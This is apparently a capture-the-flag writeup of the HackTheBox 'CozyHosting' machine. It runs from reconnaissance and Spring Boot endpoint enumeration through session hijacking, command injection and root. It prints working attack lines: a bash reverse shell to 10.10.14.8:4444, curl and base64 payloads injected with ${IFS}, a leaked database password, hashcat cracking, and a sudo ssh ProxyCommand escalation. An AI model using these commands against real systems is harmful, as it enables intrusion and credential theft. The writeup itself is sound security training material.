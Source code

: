 ```yaml
---
title: "CozyHosting - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## CozyHosting
![](https://kar0nx.github.io/assets/images/writeup/eaed7cd01e84ef5c6ec7d949d1d61110.png)
## Reconnaissance

IP: 10.10.11.230
## NMAP

```
nmap -T4 -p- -A 10.10.11.230
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 11:47 UTC
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   29.67 ms 10.10.14.1
2   29.95 ms cozyhosting.htb (10.10.11.230)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.44 seconds

```

Add cozyhosting.htb to /etc/hosts and we starting enumeration with http

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831134825.png)

/login panel

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831134916.png)

inspecting site we can spot comment 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831135130.png)

FFUF found /error page but it returns status 500 not 404

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831135819.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831135735.png)

Searching google for that error I found that this is default error page displayed by Spring Boot, so our target using it.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831135857.png)

found wordlists for Spring Boot 
https://git.selfmade.ninja/zer0sec/SecLists/-/blob/eee1651de7906112719066540ca2c5bf688cf9f2/Discovery/Web-Content/spring-boot.txt
and used ffuf again

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831140544.png)

Checking this directories I found probably nickname kanderson in /sessions 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831140852.png)

in /mapping I found something interresting

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831141322.png)

Tried to login with kanderson but no luck, maybe session stealing

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831142312.png)

and after navigating do /admin we are login as K. Anderson

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831143007.png)

no we see this executeoverssh which seen in mapping, start by trying command injection

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831143233.png)

I spot that this is using 
ssh -i 'key' 'command'

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831143458.png)

so let's create simple bash reverse shell
```
bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
```

Download it via injection

```
karol;curl${IFS}http://10.10.14.8/rev.sh${IFS}-o${IFS}/tmp/rev.sh
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831143925.png)

```
karol;bash${IFS}/tmp/rev.sh
```

tried few times change to url encoding but I cannot run rev.sh, so I switched to oneliner base64 encoded

```
karol%3b`echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQo=|base64${IFS}-d|bash`
```

and I got shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831144728.png)

## Gaining Access

spotted .jar file in current directory so imminently download it on my kali machine 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831144932.png)

```
wget http://10.10.11.230:1337/cloudhosting-0.0.1.jar
```

Now unzip jar file and search for passwords. I found postgres password Vg&nvzAQ7XxR

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831150852.png)

I was able to login to postgres via psql on target machine and extract users and hashes

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831151511.png)

Cracked password via hashcat

```
hashcat hash /usr/share/wordlists/rockyou.txt -m 3200
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831151649.png)

Now I log in to ssh josh user with above password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831151754.png)

## Privilege Escalation

Starting with sudo -l I found that josh can run sudo with ssh, quick check in GTFO bins, run command and we have root shell
https://gtfobins.github.io/gtfobins/ssh/

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831152024.png)